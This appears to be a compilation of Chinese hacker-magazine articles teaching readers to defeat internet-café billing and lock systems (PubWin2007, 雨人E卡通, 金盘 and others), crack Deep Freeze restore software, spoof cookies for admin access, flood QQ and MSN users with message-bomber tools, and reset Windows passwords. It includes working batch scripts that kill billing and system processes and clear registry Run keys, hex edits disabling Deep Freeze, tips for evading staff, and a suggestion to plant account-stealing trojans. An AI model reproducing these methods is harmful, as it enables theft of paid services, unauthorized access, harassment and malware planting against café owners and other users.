退出注册表后，打开特锐辅助器不闪掉了（不闪的是健康的）；赶紧恢复限制，如图5。隐藏的磁盘都出来了，如图6，而且还是进出自由呀。


### 什么是 Cookies 欺骗？

在只对用户做 Cookies 验证的系统中，通过修改 Cookies 的内容来得到相应的用户权限登录。初级的可以修改 Cookies 的过期时间，实现永久登录。Cookies 欺骗在入侵中经常用到，例如 Leadbbs 论坛的 Cookies 欺骗漏洞。首先自己注册一个用户登录，得到 Cookies。从管理员页面中找到管理员的 ID，然后把 Cookies 中自己用户 ID 改成管理员的 ID（IECookiesView 是专门修改 Cookies 的软件，如图1）。刷新页面后登录后台地址，输入自己密码登录后台。到此就通过 Cookies 欺骗成功登录系统后台，这个入侵方法还是很容易的吧。

## 看我鸟来破解一卡通

在一个黑漆漆的晚上，我在网吧一个黑漆漆的角落正 hacking 得兴奋，突然出现了锁屏（图1），我这才意识到资金不足了。难道要去乖乖地交钱上机吗，这可不是我们突破限制寻求自由的精神。

```bat
taskkill /f /im runme.exe
kill.bat
```

最后输入 kill.bat 来运行它，此时 runme.exe 结束了，而且它自动恢复后会马上被我们的批处理给 kill 掉。不过，系统的 CPU 会达到 100%，不过并不会影响我们的正常使用。为了深入地学习，就继续来进行，经过查看注册表发现了网吧管理程序是通过 Run 键值来实现开机自启动的（图4），我们来删除它。我这里管理员密码为空，所以就直接注销了（获取系统密码的方法有很多，可以参考以前的杂志）。此时顺利进入了系统，而且管理程序没有启动哦（图5）。


我们这里的管理软件是“一卡通”，显示在电脑右下角托盘处的图标如图2所示。不过我们这里的网吧 100% 都是使用这个的（警察叔叔说的），版本可能不是很统一，但是关键进程却都是“runme.exe”（图3）。已经处于锁屏状态，使用“Ctrl+Shift+Esc”来调出任务管理器，一闪而过，不要紧，被锁屏画面遮住了，其实我们此刻的操作还是在任务管理器上的。使用“Alt+F”打开文件菜单，选择“新建任务”，输入“CMD”，回车，已经打开了 CMD 窗口。此刻我们的键盘输入已经切换到 CMD 上了，敲入 `echo taskkill /f /im runme.exe>kill.bat`，`echo kill.bat>>kill.bat`，完成后就会在系统目录下生成一个 kill.bat 的批处理文件，内容如下。

```bat
@echo off.
rem 创建注册表脚本文件
echo Windows Registry Editor Version 5.00 >delrun.reg
echo.>>delrun.reg
echo [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]>>c:\delrun.reg
rem 把文件导入注册表
regedit.exe /s delrun.reg
del delrun.reg /f /q
rem 注销系统
shutdown -l
```

为了方便以后的生存、学习，我写了个简单的批处理：以后只要自己快没有钱的时候，运行一下就自由了。哈哈，天下又是我们的了。（本文所涉及到的批处理文件已收录到光盘中）

### 冰点还原 6.X 之破解大全

在去年 12 期的杂志上曾经介绍了如何使用 U 盘破解冰点还原 6.0 的方法，但那只算是小破了一下，只是简单地实现了在安装有冰点还原 6.0 的电脑上存储和删除一些文件，至于如何修改一些设置对于我等小菜来说就无能为力了。今天我就给大家带来了冰点还原 6.X 的破解大法，这可是包括 6.0 以及更高的 6.2、6.3 版本哟。

先来看一下 6.0 的破解方法，破解冰点 6.0 要用到的工具有两个：WINHEX 和直接访问硬盘程序 v1.1。首先我们打开 WINHEX，找到 `$Persi0.sys`，并记下它的物理扇区编号（图1），然后运行第二个工具，也就是直接访问硬盘程序 v1.1。将刚才记下的物理扇区编号填到直接访问硬盘程序的 LBA 里面，这里是默认的 D 盘，如果你所在的网吧将 D 盘隐藏了，可以改到其它盘去，然后点“读取扇区”（图2）。

使用 WINHEX 打开刚才生成的 boot.ini 文件，然后找到 `7d 6e cb d1`（这个代表重启后保护硬盘），将它改为 `82 91 34 22`（这个代表重启后不保护硬盘），修改好以后保存，然后关闭 WINHEX（图3、图4）。使用直接访问硬盘程序将修改后的 boot.ini 写入扇区（图5）。最后重启电脑，破解就完成了，我们可以看到右下角的图标上已经打了一个红×（图6），这就说明它已经不能还原了。另外在修改 boot.ini 文件前应该先备份一下，等你更改完设置后再用直接硬盘访问程序写入扇区，不然让网管看见它那可爱的熊出了问题还不来个全盘杀毒啊。现在的一些网吧更新很快，都更新到 6.2 或者更高的版本了（图7），现在我们就来搞定它。


图1


图2


图3


图4


图5

这次的破解比 6.0 的还要简单。因为有直接破解的工具，而且用法也非常简单：同时按住 Alt+Ctrl+Shift+F6，调出冰点的密码验证窗口，然后打开冰点破解器（图8），什么都不用输入，直接点“OK”，密码就这样出来了（图9）。


图6


图7


图8

来试验一下，使用得到的密码进行登录，密码果然正确（图10）。我再给大家解释一下关于冰点的各个设置项的意思，以方便那些英文不好的朋友：主界面一共有四个选项，我们用到的只有前两个，分别是还原选项和密码设置。在还原选项中又有三个选项，第一个为保护状态，即每次启动恢复所保护的硬盘；第二个为自由选项，比如系统正在被保护状态，我们选第二个选项，默认为 1，这个 1 是指电脑重新启动后的一次为不保护状态，当电脑再次重启后，自动转到保护状态，那么在重启后我们所做的操作在第二次电脑重启时就会被自动保护起来；第三个为还原状态，重启后冰点图标会不停地闪动红叉，就是放弃了所有保护的硬盘，这时候运行冰点安装程序可以删除冰点。


图9


图10

好了，相信大家看完本文后再遇到安装有冰点还原系统的网吧就可以按照自己的想法修改一些设置，比如修改 XP 下默认线程数以方便使用各种扫描工具，也可以存储一些自己的东西等等。（本文所涉及到的 WINHEX、直接访问硬盘程序 v1.1 和冰点破解程序已收录到光盘中）

### 鬼杀与删装绝招

许多菜鸟都没有自己的电脑，那要是想练电脑技术该怎么办？当然是去网吧了。但是对于许多小菜来说网费是个很大的开销，所以我就想了一些招数来免费上网，在此给菜鸟朋友公布出来，都是比较简单实用的，老鸟勿笑！

#### 第一招：窗口隐藏工具来帮忙

因为网吧管理软件在电脑锁上后的那个锁屏界面是一个窗口，所以我们就可以隐藏那个窗口。这里给大家推荐一个窗口隐藏软件“Hide Window Plus”，这个软件可以让我们不用费时费力地去找出想要隐藏的窗口，只要把想隐藏的窗口对应的进程找出来就行了。运行程序后点“添加”，选择好程序后点“确定”（图1），然后再来到“隐藏窗口”选项，设置显示和隐藏窗口的快捷键（图2）。最后就是等待电脑到时锁上的那一刻，按下你设置的隐藏窗口的快捷键。看吧，一切都是那么美好，而且网管软件的托盘图标也不会消失掉！


图1


图2

#### 第二招：病毒带给我们的启发

大家在感染了一些病毒时有没有注意过，为什么杀毒软件和一些安全类软件打不开了。其中部分原因就是因为软件的安装目录和一个奇怪的文件夹（如“MFC42.dll”等）。这是为什么呢？因为程序在运行时要调用 “MFC42.dll” 这个文件，正常情况下这个文件是在系统目录下的，可是程序在运行时要先在程序当前目录下寻找 “MFC42.dll”，没找到的话再去系统目录寻找。我们就是要利用这个机会，找到网管软件的安装目录，新建一个文件夹，起名 “MFC42.dll”，然后把电脑注销一下，启动后，一个应用程序初始化失败的对话框弹了出来（图3），网管软件也就会像迅雷那样出错而无法启动了。


图3

#### 第三招：安全工具也来帮忙

这招是我在看完去年第 12 期杂志中的一篇文章才发现的，文章的作者让大家帮忙测试一下他自己写的软件“Dark Particle”。我测试了一下，结果却看到了这个，也就是“进程管理”选项中的“暂停进程”（图4）。“暂停进程”，这不就是将进程像看电影时暂停一样，让程序还在那里呈没反应，但并不响应了。这对于那些关闭进程并没有管软件的进程而选择是否重启电脑，而不会检查进程存活性的网管软件就太有效了。

图4

#### 第四招：换个桌面来玩玩

对于这招，菜菜们可一定要看好了，可以说是通杀啊！首先拿出“Super X Desktop”，这个软件可以创建出多个虚拟桌面。运行软件，这时你已经进入“虚拟桌面”了。右键点击系统托盘中软件的图标，如图5所示：圈起的框1是每个桌面的名字，框2是每个桌面对应的快捷键，框3里那个“√”代表的是当前在第一个桌面上，你正在使用的桌面默认是第一个。运行好软件后，等到下机时间一到，电脑一锁，按下其它桌面所对应的快捷键看看，可爱的桌面又回来了吧，而且网管软件的托盘图标也还在！上面这几招都要先正常付钱上机才能够使用，同时你开始免费上网后主机那里还是会显示你这台电脑没人，建议大家坐在网吧不太起眼的位置，然后，开玩吧！

图5

软件的进程（一般在“Dark Particle”中以特殊颜色显示的进程里找，非系统进程），选中它后点“暂停进程”，然后再点网管软件查看你的上机剩余时间，怎么样，没反应了吧。等到了下机时间，电脑也没有被锁上。不过这只是这个软件的一个作用，这个软件在电脑安全方面也是非常有用的。我测试时没发现什么错误，建议菜菜们必备！

（本文所涉及到的 Hide Window Plus、Dark Particle 和 Super X Desktop 已收录到光盘中）

> 想毁就毁，我的地盘我做主

黑枫无泪

## 一、QQ聊天集中轰炸机飘云版

这款工具主要针对QQ进行消息式攻击，能够在很短的时间内向对方发送大量的自定义信息，整个发送过程无需人工干涉。工具打开后的界面如图1所示。先在上面的“时间间隔”里设置好发送内容的时间，发送的最快速度是一秒一次，然后在下面的消息发送框中输入要发送的内容。打开QQ聊天窗口，然后在聊天集中轰炸机中点上面的“开始查询”，就可以在右边框中显示出该对话框；点击下面的“开始轰炸”就可以完成一次轰炸。在不点“停止轰炸”的情况下，工具会一直发送内容框中的内容，如图2。这款工具的特点就是只认对话框不认人，也就是说只要在工具右边出现的对话框，都会被轰炸。这款工具的优点在于可以对多个对象进行轰炸，比如打开多少对话框就可以轰炸多少，完全可以自己选择，不过只能针对QQ，对其他IM软件就没作用了。

图1

图2

## 二、即时消息DOS工具

那么，倘若对方不使用QQ，而用的是MSN，我们要如何进行消息式攻击呢？不至于我们要手工发送吧，那样不累死也会郁闷死。为了解决这个问题，我顺便写了款“即时消息DOS工具”。这款工具的优点就在于可以对所有的IM聊天软件进行攻击，并且攻击速度和攻击效果都比“QQ聊天室轰炸机”要强得多。据我测试过的就有QQ、MSN、UC、Yahoo通、POPO、飞信、淘宝旺旺等。废话也不多说了，大家来看工具的使用吧，如图3。

图3

使用方法非常简单，工具上面也已经写明了：“先复制一段要攻击的话，然后点击‘攻击’按钮，再回到聊天窗口就可以了”。界面上一共就有两个按钮：“攻击”和“停止”。攻击的话语是自己预先设置好，也就是在可以输入的地方输入一段话，然后复制，再点击“攻击”按钮，回到聊天窗口就可以自动发送了。最上面的“每秒攻击数量”指的是一次发送多少条剪贴板里的内容，如果输入“5”，那么就发送5条刚才复制的内容，如图4。

图4

图5

而我们刚才介绍的“QQ聊天室轰炸机”是没有这个提示的，如果腾讯没有限制发送时间的话，每秒发送次数可以达到很多次，从而攻击的效果会更好。具体次数我还没有测试。图5、图6、图7是其它几款IM软件攻击后的截图。由于条件有限，我只列举了几个常用的IM软件，并没有把所有的都列举出来，大家有空的话可以自己测试一下其它的IM软件。要注意的是如果对QQ进行攻击的话，数量不建议设置太大，一般在1-10之间就可以了，如果设置太大，电脑配置不好的话可能会使电脑卡机。

除此之外我还测试过一些聊天室，照样可以达到一定的效果，不过聊天室是攻击不了的，但可以达到刷屏的效果。

图6

图7

## 三、网吧限制突破工具——Eraae v1.4

对于一些经常在网吧上网的朋友，这款工具应该并不陌生，在前几期杂志的光盘中也曾经收录过1.3版的工具，下面我就把最新的1.4版本搬出来给大家。虽然单论功能来讲不能和精锐媲美，但我相信以后会越来越好的。Eraae v1.4运行后的界面如图8所示，列举了一些网吧中常见的限制破解。有些朋友也碰到过诸如注册表被禁用、任务管理器打不开、网吧限制下载等问题，那就不妨试下这款工具。

图8

## 网吧黑客

所谓树大招风，有些网吧为了安全干脆直接禁用一些黑客工具、网吧破解软件和一些在线破解网站，这使得小菜们在网吧中很难混日子了。值得庆幸的是目前Eraae还没有被列入网吧黑名单，毕竟不太出名，使用的人也不多。它目前只有100多K，比那些几M的个头要小多了，携带收藏都很方便，不会占用太大空间，正是小菜玩网吧破解所必备的武器。

大家在工具的主界面中可以清楚地看到右边有一部分按钮是灰色的，这是因为我在程序中加入了自动检测功能，让工具一打开就能够检测到电脑的受限情况。工具写得很简单，大家看下就知道怎么使用了，我主要介绍一下几个比较容易搞混的功能。

图9

- 1. “隐藏IE选项”、“禁用IE属性”和“禁用IE安全选项”
  - “隐藏IE选项”指的是隐藏右键IE属性选项。
  - “禁用IE属性”指的是禁用打开IE“工具”下的“Internet选项”。
  - “禁用IE安全选项”指的是右键IE属性中的“安全”选项里的Internet安全选项自定义按钮。

图10

- 2. “禁用右键”、“禁用右键属性”和“右键属性禁用设置”
  - “禁用右键”指的是直接禁用右键功能，使右键完全失效。
  - “禁用右键属性”指的是禁用右键桌面属性。
  - “右键属性禁用设置”指的是右键桌面属性打开后里面一些选项的禁用设置。

右边的功能和左面的功能是相对应的，目前Eraae v1.4还不被杀毒软件查杀。如果大家发现工具上有病毒，那肯定是被绑马了，请大家不要使用，一定要到自己信任的站点去下载。我在1.4版本中增加了一个注销按钮，有些人可能认为是多余的。

但我认为有必要增加。有些网吧是直接将注销隐藏或屏蔽掉，然而这里的有些功能是需要注销后才能生效的。最后我再讲下“驱动盘管理”，大家看到这个可能会有疑问，这是为解除网吧打不开盘符而增加的，可以通过工具中的“驱动盘管理”直接进入C盘等其它盘符。

图11

工具介绍就到这里为止了，如果网吧中还存在什么限制，而工具中还没有的话，大家可以联系我，我将在下个版本中增加。

## 四、系统密码克星——XP Password Look Over v1.2

XP Password Look Over，中文翻译为“XP系统密码查看”，这款工具可以说是目前最简单的破解系统密码的工具了。其运行后的界面如图12所示。我先解释一下按钮上的英文意思，界面上总共只有五个按钮：“Look Over”为“查看”，“Modification”为“修改”，“Obtain”为“获取”，“Explanation”为“介绍信息、解释”，“Exit”为“退出”。

图12

整个工具界面分为两个部分，左边为查看系统账号密码信息，右边为修改密码。左边系统密码查看成功率因运行环境不一样，所以信息也不一样，不过右边的成功率可以达到100%，而且修改密码不需要你的旧密码，这适用于遇到突发事件。

图13

密码刚改了又忘掉，或者是在别人设置了密码的电脑上网，我们可以很轻松地更改对方的密码，具体操作只要点击“Modification”，然后再点击“Obtain”就可以了。文中所涉及到的QQ聊天集中轰炸机飘云版、即时消息DOS工具、Eraae v1.4和XP Password Look Over v1.2已经收录在光盘中。

## 黑客词典：什么是DNS？

> DNS是域名系统（Domain Name System）的缩写。该系统用于命名组织到域层次结构中的计算机和网络服务。DNS使用户无需记住TCP/IP网络中通过数字表示的名称来访问计算机和服务。当用户在应用程序中输入DNS名称时，DNS服务可以将此名称解析为与之相关的其他信息，如IP地址。

### 小菜来破解程序监控

陈则征

本人所在学校附近有个配置很好的网吧，我不太玩游戏，就爱下载个电影什么的。不过最近去玩却发现网吧换系统了，不管它，安装迅雷，一路正常。运行迅雷，只见一个cmd黑影闪过，什么反应也没有了。我本着和平的心态想想这事也就算了。于是我又安装了FlashGet，发现也无法运行，接下来我又试了Web迅雷、QQ旋风，发现都不行。这网管也太欺负人了吧，难道要赶尽杀绝啊。

我七窍生烟，斗志昂扬，以“黑客X档案”的名义起誓，一定破解掉它。首先更改迅雷的默认名称、更改安装目录，没有结果。直觉告诉我那个cmd窗口是突破点，于是我又运行迅雷，在“黑影”闪过的时候按下PrintScreen键进行截屏（图1），cmd窗口里一片空白，但标题上却有一程序的路径 `E:\NBMSClient\PTarget.exe`。我来到该目录下把这个“PTarget”删除掉，再次运行迅雷，没有出现黑影，但迅雷也没有出来，怎么办呢？

我打开任务管理器，把除了系统和Pubwin以外的进程全部结束掉，然后再次运行迅雷，这时有一个进程冒了出来，而它与 `E:\NBMSClient` 目录下的一个文件夹同名（图2）。

打开该文件夹，其中有一个ini文件，打开看看。哈哈，狐狸尾巴终于露出来了（图3）。

禁止运行的软件还挺多，删除掉迅雷的名字“Thunder5.exe”，保存后运行迅雷，还是不出来。我想起“黑客X档案”上曾经有篇文章说改名就可以了，我试着把“Thunder5.exe”改成“Thuaaaaander5.exe”，保存后运行迅雷，仍然不出来。

都到嘴边的肥肉不能跑了，我再想想。突然想起有一些程序或游戏的配置文件都是ini格式的，ini文档里常用1、0代替是或否，在等号后加个1试试（图4），保存后打开迅雷，哈哈，这回成功运行了（图5）。

### 网吧还原也很脆弱

10℃誓言

好长时间都没去网吧玩了，也不知道机器狗在网吧过得咋样。今天无意间发现了网吧一个很好玩的东西，大家和我一起来看看吧。和往常一样开机，然后就是祈祷电脑能快点启动，进入操作系统选择菜单的时候好像多出了一个什么东西，仔细一看，原来是DOS工具箱（图1）。这不是给我们小菜创造方便条件嘛，当然不能错过。

刚一进入系统界面，右下角的胖熊就暴露自己了，这不就是冰点还原吗？再看C盘是什么文件系统，还是FAT32格式，这可方便了我接下来的操作。闲话不说，下面就来破解它的冰点还原，重启电脑后选择进入DOS工具箱（图2）。

我们直接进入DOS命令行，输入 `C:` 回车进入到C盘，然后执行 `DIR` 命令查看文件，证明是系统盘（图3）。接着输入 `move $persi0.sys D:` 把冰点的这个顽固文件转移到D盘，如果你够残忍的话直接删除它也行，命令是 `del $persi0.sys`。

搞定后，不信就进入桌面看看吧。我又想了想，其实我们也可以删除冰点的驱动文件，如果你不知道该删哪个驱动文件的话可以这样去查找：随便选一个盘点鼠标右键→属性→硬件→选中你的硬盘（也就是磁盘驱动器对应的那个）→属性→驱动程序→驱动程序详细信息，那个没打勾的就是（图4）。不过，需要注意的是：并不是所有的还原软件都可以删除驱动文件，有的删除后会蓝屏死机的。

干掉冰点后，接下来做什么就随便大家了，比如种个盗号木马，或是免费上网什么的都行。一切操作完后别忘了还要把它还原回去，不然的话被网管发现可就不好了。如果你所在的网吧没有安装DOS工具箱也不要灰心，U盘你总有的吧，使用USBoot格式化一下U盘就可以引导了（图5）。还有的网吧可能锁定了CMOS，这个你也别怕，使用xp+2000 CMOS密码清除器就可以清除CMOS的密码了（图6）。

（本文所涉及到的USBoot和xp+2000 CMOS密码清除器已收录到光盘中）

### 巧破金盘电子阅览室机房管理系统

西北的狼

#### 一、金盘系统简介

金盘是金沙江公司在进行了广泛用户需求和市场调研后开发的一个面向电子阅览室和机房的自动化管理软件。该软件目标与常见网吧管理系统类似，许多高校（含211院校）都有使用，因此其安全性一直是核心卖点，破解难度较高。

遇到了严重警告，如图2，然后重启电脑。看来不明所以，果然有一个守护进程在时刻守护着客户端。再结束该守护进程试运行，结果还是警告后重启，如图3。

到此已基本明白客户端工作原理：客户端有两个相互保护并保持联系的进程；若发现异常会重启或发送锁屏信号。计费与上网时长等由服务端控制，客户端通过Client.exe与cliGold.exe协作。

我首先想到的是结束进程，但当结束Client.exe进程时却收到警告并重启。

#### 二、金盘系统的工作原理

破解前需先搞清工作机制。金盘管理系统采用C/S架构，一个客户端配一个服务端。客户端主要进程为Client.exe与cliGold.exe（位于system32且隐藏）。服务端负责计费、监控及到时锁屏，客户端接收并执行命令。

#### 三、金盘系统破解方法

既然client.exe负责锁屏相关动作，而服务端并不严格校验执行结果，就可通过同时结束相关进程并重启资源管理器来避免锁屏。

```bat
taskkill /f /im cliGold.exe
taskkill /f /im Client.exe
taskkill /f /im explorer.exe
start explorer.exe
```

将以上内容保存为 `.bat` 批处理并在上网时间将到时运行，可避免被锁屏。但该方法也有缺点：每次上机都要花钱且金额虽小，时间长了仍可能被管理员察觉。

下面介绍一个更好的方法：可以结账但不会锁屏。第一步，将以下代码写入记事本并保存为K1.bat。

```bat
ntsd -c q -pn smss.exe
ntsd -c q -pn winlogon.exe
taskkill /f /im CliGold.exe
taskkill /f /im Client.exe
start client.exe
start C:\WINDOWS\system32\client.exe
```

我简单解释一下，`ntsd -c q -pn smss.exe` 与 `ntsd -c q -pn winlogon.exe` 这两条命令是强制结束系统进程防止电脑重新启动的。`start client.exe` 是启动我自己编写的一个VB小程序，为了防止结账后金盘锁屏，并且起到伪装金盘系统托盘图标的目的。其运行后的界面如图4所示。`start C:\WINDOWS\system32\client.exe` 这个代码是负责结账。

第二步，将下列代码输入到记事本里，保存为K2.bat。

```bat
taskkill /f /im explorer.exe
taskkill /f /im Client.exe
start client.exe
start explorer.exe
```

第三步，把K1.bat、K2.bat以及我写的VB小程序存放到同一个目录下。这个VB程序的文件名叫client.exe，是为了应付CliGold.exe对主进程的守护。

使用方法：正常登录金盘收费系统，按照上面的步骤建立两个批处理文件K1.bat与K2.bat，首先运行K1.bat，然后再运行K2.bat。要注意的是这个过程必须使用我编写的那个金盘杀手小程序并且在同一个目录下。这个方法的优点是可以在客户端结账，也就是说结账后还可以继续使用计算机。

#### 四、破解后的一点感想

总的来说这次破解不算很高深，都是一些常用的命令以及方法。但我认为有时候最简单的东西也是最有用的，就像本次破解中所用到的批处理就发挥了巨大的威力。在这个过程中我们可以锻炼自己的破解能力以及学习如何利用现代的网络来解决问题，这对于自己的成长是非常有帮助的。（本文所涉及到的批处理代码和金盘杀手已收录到光盘中）

## 一元的午餐——PubWin2007简单破

年初的时候，我家附近的网吧管理系统就从万象2004换成了PubWin 2007。由于当时PubWin 2007的破解方法很少，也就使得我无法继续用一元钱开机再进行破解的方法来免费上网了。

不过现在PubWin2007破解的方法有很多了，在X档案上也曾经介绍过一些，下面我再为大家介绍一个简单的破解方法，也能达到一元钱上网的效果。

我们需要的工具只有PubWin2007伪装破解精灵。破解的过程非常简单，当你花一元钱上机后，在下机前双击PubWin2007伪装破解精灵，点击“断开 pubwin.exe”，此时屏幕中央会提示：“搜索pubwin2007登录窗口，超时：20秒”，如图1。稍等一段时间程序又会提示：“pubwin2007客户端停止成功”，破解完成，如图2。

我们再看看托盘里PubWin2007的图标，是不是已经消失了？图标没有了就要伪装一个来应付网管的检查。还是打开PubWin2007伪装破解精灵，点击“伪装图标 pubwin.exe”，再看，托盘图标就又重新回来了，如图3。OK，所有的工作就结束了，可以免费上网喽！

最后需要提醒大家的是：当你到时间后（正常上网的情况），网吧主机PubWin控制端显示的是此机锁定未使用，所以大家一定要注意人身安全哦！（本文所涉及到的PubWin2007伪装破解精灵已收录到光盘中）

## 轻松突破雨人网络E卡通

近黑者 [iamdge]


最近我们这里的网吧全部从“万象2004”换成了“雨人网络E卡通”，一时间不知道该怎么办了。很多破解的方法都用不成了，只能伤心地看着自己的钱一角一角地装进老板的口袋，那心情真是……

到网上搜索了一下“雨人网络E卡通”的破解方法，可大家都说很难破解，没有找到什么有效的方法。看起来只能自己研究了。就比如今天我正在网吧帮朋友编写一款游戏外挂，突然上机时间到了，那个愤怒啊，谁能理解呢（图1）？


图1

盯着锁住的电脑屏幕，一时间手足无措，试遍了所有的方法毫无收获，真是糟糕透了。突然又想到了任务管理器，于是按下 Ctrl+Alt+Delete，真是令人激动，任务管理器竟然跳了出来（图2）。


图2

试试结束管理程序的进程，鼠标只可以在下面活动，根本点不上去。就在这万分焦急的时刻，我点了下“关闭计算机”，这时鼠标可以移上去了，但是却无法点别的。不过点击“取消关机”后，鼠标就可以随意动了，但只有5秒的时间，所以如果动作足够快的话，点两次关闭计算机就可以搞定了。选择结束雨人网络E卡通的任务，点击结束任务，桌面出来了（图3）。


图3


图4

怎么样？简单吧！各位小菜鸟遇到问题的时候，不要躲避，只要多动动脑子，一切都会解决的。就在我准备完稿的时候，朋友告诉我说现在另一家网吧中这种方法不可以使用。我于是又来了兴趣，过去试了一下，操作完上面的所有步骤，桌面是出来了，不过没有任务栏，而且玩上一两分钟就会再锁住屏幕。

我又陷入了无奈，怎么办呢？这时我又想到了网络连接里的协议，右键点击“网上邻居”，选择“属性”，在本地连接上点右键，选择“属性”，打开“本地连接属性”（图4），把其中的 Network Monitor Driver 协议卸载掉，这样就不会关机了（图5）。


图5

## 黑客术语小卡

### 什么是Cookies注入？

这是目前非常流行的一种攻击方式，普通的注入攻击很好防范，但把注入语句加到 Cookies 中提交就往往被人忽略。当一套程序的 Cookies 没有过滤严谨时，就为攻击者打开方便之门，而且还可以无视防注入系统。

## CMD下来终结网吧收费系统

缥缈☉吾影 [07108班]


这天实在无聊，我来到了好久不去的网吧，下载了几首歌曲后，到各大网站又转了一圈，时间过得好快呀，要下机了，可网吧收费系统却提示金额不足，真是令人郁闷！我忽然有了一种想破解网吧收费系统的冲动。

这家网吧使用的收费系统为同联，收费系统能够正常运行，那就肯定会有进程，我们只要终止了进程，无论什么程序都不会运行的。先选择“网上邻居”，点击鼠标右键，选择“属性”，然后选择网络连接里的“本地连接”，点击鼠标右键，选择“禁用”，也就是把本地连接停用，断开网络连接，这样电脑就不受主机的控制了。

我按下“Ctrl+Shift+Del”组合键想调出任务管理器，却发现被网吧管理员限制了。好在网吧对于下载文件倒是没什么限制，我也懒得去下载工具了。点击电脑最左下角的“开始”，却发现“运行”栏没有了。没有工具难道就不能终止程序的进程了吗？那就编写一个批处理文件来打开 CMD 命令提示符吧。

在电脑桌面上点鼠标右键，新建一个“文本文档”，在文本文档中输入 `start cmd.exe`（注意，start 和 cmd.exe 中间要有一个空格），然后点“文件”→“另存为”，扩展名就写批处理文件扩展名 bat，文件名我设置的是 1.bat，最后点保存，桌面上就多了一个批处理文件。双击运行，顺利地打开了 CMD（图1）。


这个黑框框和破解网吧又有什么关系呢？别着急，接下来你就会发现它的用处了。我们输入 tasklist 命令后回车，就能查看系统的进程了（Tasklist 命令的作用：显示应用程序列表、服务以及当前运行在本地或远程计算机上的进程 ID（PID））。对于系统进程相信大家都很熟悉了，关闭除网吧收费系统外所有正在运行的程序，剩下的进程里应该就有网吧收费系统的进程了（图2）。


我看到了两个很相似的进程，分别是 ClientBK.exe 和 ClientP.exe，可以看到这两个进程的 PID 分别为 1200 和 1312。经过查找，发现网吧的客户端程序是保存在 `C:\Program Files` 目录下。进入客户端安装文件中，我看到有两个程序的名字和正在运行的进程名是一样的，因此可以确定这两个进程就是网吧客户端的进程。先使用 taskkill 命令终止其中的一个进程，发现电脑被锁上了，提示客户端非法关闭。

没办法，只能重启电脑。刚开机时，客户端没有马上运行，我用最快的速度把网络断开了连接。客户端的两个进程一定是相互保护的，一个被终止后，另一个进程就会自动锁机。那么同时终止这两个进程应该就能终结掉客户端了。在 CMD 中，同时终止多个进程的命令有两种格式：

- 格式1：`taskkill /pid 进程的pid值 /pid 进程的pid值`  
  刚才我们已经看到 ClientBK.exe 和 ClientP.exe 的 pid 值了，输入 `taskkill /pid 1200 /pid 1312` 回车后，就同时终止了这两个进程。
- 格式2：`taskkill /F /IM 程序进程名`  
  这种命令格式是指定强制终止的进程，不需要知道 PID 值。输入命令 `taskkill /F /IM ClientBK.exe /IM ClientP.exe` 回车后，就把两个进程终止了（图3）。


任务栏查询余额的图标消失了，我们重新把网络连接开启使用，就可以正常上网了，这时电脑已经无法被锁了。以上两种命令格式可以同时终止多个进程，以后碰到有多个进程的程序，直接全部终止就可以了。

不借助任何工具，网吧收费系统就这么简单地被破解掉了，我们平时也要多留意 Windows 系统自带的好东西。

> （文章的视频录像已经收录光盘中）


## 看我怎么搞定你，雨人网络E卡通

007 菜鸟


我们这儿的网吧自从2006年末就把万象2004更换成雨人网络E卡通计费系统了，可惜了我对付万象练成的一身好武艺。自从网吧全都使用了雨人计费系统后，一直都没有什么好的破解方法。正月初收到可爱的《黑客X档案》，可是里面介绍的方法太过于繁琐了，而且我这儿的网吧也根本无法使用。求人不如求自己，下边我就把自己破解雨人网络E卡通的一些心得与大家分享。

今天要带给大家的是一元钱上机法，花一元钱只要不被网管发现，想上多久就上多久，一般适合晚上通宵和挂机的同学。好了不说废话了，下面请看操作。

先开一张临时卡，充多少钱随便大家，但是充多了也是一样的，建议充一元到两元左右，充多了也是浪费。我们要用到的工具有冰刃（也就是 ICESWORD），这是一款不可多得的进程检测好工具，还需要精锐网吧辅助工具。这两款工具在百度和 Google 里都很容易找到，菜鸟必备。

首先解压冰刃的压缩包，我使用的是 ICESWORD 1.22 版，各位读者可以按情况选择适合自己的版本。运行 ICESWORD.EXE，出现了如图1所示的界面，我们点“进程”，看到没有，所有的进程都显示出来了，任何隐藏的进程都躲不过冰刃的法眼，这个网吧使用的冰点还原软件的进程也显示出来了，如图2。


图2


图1

看见那两个可爱的小熊脑袋了吗，那个就是冰点还原，按照第4期杂志中“冰点还原6.X之破解大全”一文中所介绍的方法一下子就搞定了这里的还原系统。看见图中右边我画圈的两个进程没有？它们都是位于 C 盘下 Program Files 目录下的 JFWCLIENT 的进程文件，其中的 CLIENTMO.EXE 是守护进程，防止 JFWCLIENT.EXE 进程被强制结束，如果结束了 JFWCLIENT.EXE 的话它就会马上重建新的进程；如果结束掉 CLIENTMO.EXE 进程，系统会死机或者重启，电脑二度启动我们所做的操作就白费了。

整理一下思路，按照老方法，先结束掉 SMSS.EXE 这个进程，再结束掉 WINLOGON.EXE 这个进程，记住顺序千万不能颠倒，否则电脑就会重启。接下来才是关键，我们先结束掉 JFWCLIENT.EXE，然后等 CLIENTMO.EXE 重新创建一次 JFWCLIENT.EXE 后，再结束掉 CLIENTMO.EXE，最后结束掉 JFWCLIENT.EXE 这个进程就行了，如图3。


图3

接下来就是自由的时间了，随便你怎么上机都行，就是别被网管发现了，因为卡里余额没有的时候就会显示你这台电脑是空的，要是网管来关机看见你还在上网的话，不怀疑才怪呢。所以我一直都是在一个网管比较忙的时候下机，顺便重新上通宵卡来着。有的时候为了挂机就跑到其他的网吧去，搞定之后就挂机。在我们这里的网吧都有锁屏工具的，把屏幕一锁，我就跑路了，只要没有人重启你的电脑就没有问题。

其实本文使用的基本上都是前辈所使用过的方法，不过为什么要先结束 JFWCLIENT.EXE，再结束 CLIENTMO.EXE，对于这点我也不太清楚，反正我都是这样破解的，希望有高手能够解释一下。


图4

另外要强调的一点是，结束完进程后鼠标不要放在右下角，因为鼠标一放在右下角的话，那个有个 J 的图标就会消失，如图4，很容易被网管发现的。

接下来我就讲讲精锐的作用。我使用上述的方法搞定了我这里80%的网吧，可是突然有一天在一家网吧里竟然失效了，结束完进程后发现鼠标和键盘被锁定，不能使用了。无奈之下只好重启电脑，打开冰刃按照老方法结束完进程后，不要关闭冰刃。这时候我发现多出来一个 CMD.EXE 的进程，心慌啊，赶快结束掉，没想到一分钟后又出现了 CMD 进程，我只好再次结束掉，它再次出现了。就这样反复了好久，我终于坚持不住了，在 CMD 进程出现没多久鼠标和键盘就又被锁定了，只好再次重启电脑。

